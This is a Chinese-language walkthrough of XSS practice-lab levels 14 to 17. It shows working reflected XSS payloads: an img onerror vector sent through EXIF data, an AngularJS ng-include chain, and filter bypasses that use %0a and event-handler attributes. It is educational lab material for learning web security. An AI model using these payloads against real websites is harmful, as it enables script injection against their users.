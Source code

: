 同上，改成Cookie处

# level14

目标网站好像有点问题，这道题应该做不了了，记录一下做法。

做法是修改图片的EXIF值

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240417150436.png)

最终payload：`'"><img src=1 onerror=alert(document.domain)>'`

# level15

AngularJS的javascript框架漏洞

查看源代码，发现这个网页使用了AngularJS的JavaScript框架，网页源代码：

`<body><span class="ng-include:1.gif"></span></body>`

使用了ng-include这个表达式的意思是当HTML代码过于复杂时，可以将部分代码打包成独立文件，在使用ng-include来引用这个独立的HTML文件。

尝试构造如下payload：

http://10.10.10.135/xss/level15.php?src='level4.php'

竟然在下面出现了level 4的页面！

由于level 4产生XSS的页面是：

http://10.10.10.135/xss/level4.php?keyword="onmouseover='alert(1)'

猜想构造level 5的payload：

http://10.10.10.135/xss/level15.php?src='level4.php?keyword=%22%20onmouseover=alert(1)%20%22'

其中%20为空格的url编码，%22为”的url编码，将鼠标移动到下面的输入框中触发，成功！

# level16

script、空格和/时转译成&nbsp;，&后面的字符被删除。

使用事件属性，用%0a换行符代替空格：

http://192.168.1.104:1235/xss-lab/level16.php?keyword=test%3Cimg%0asrc=1%0aonclick=alert(1)%3E

# level17

http://192.168.1.104:1235/xss-lab/level17.php?arg01=a&arg02=%20onmouseover=alert(1)

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240417155127.png)

不知道为什么加个空格就截断了

# level18
